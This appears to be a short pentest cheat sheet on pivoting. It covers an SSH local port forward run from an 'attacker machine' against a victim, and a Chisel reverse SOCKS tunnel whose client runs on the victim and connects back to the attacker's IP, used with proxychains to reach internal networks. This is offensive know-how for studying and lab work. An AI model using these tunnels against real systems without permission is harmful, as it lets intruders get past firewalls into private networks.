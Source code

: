 
## See exposed sockets

See what socket is used on the machine :

```
ss -tulpn
```

## Using ssh to expose service

If a service is running on lets say port 8080 of a machine (and is blocked by a firewall), you can redirect the trafic to your machine on port 2222 for exemple :

```bash
#attacker machine
ssh -L 2222:127.0.0.1:8080 <user>@<victim ip>
# 2222 est le port local (attaquant) et 8080 est le port a exposer (victime)
```

Access the hidden service on `127.0.0.1:2222` on the attacker machine

## Chisel

[Chisel Tunneling](http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/)

On host :
```
./chisel.elf server -p 8080 --reverse
```

On victim : 
```
./chisel.elf client <YourIP>:8080 R:socks
```

### Setup and use ProxyChains with Chisel

Create a proxychains.conf : 
```
proxy_dns
tcp_read_time_out 200
tcp_connect_time_out 200
[ProxyList]
socks5	127.0.0.1 1080
```

Launch the server, connect the client and you can access the IPs on the networks your client has access to, from your attacker machine with the command : 

```
proxychains -q <command> # -q for quiet
```

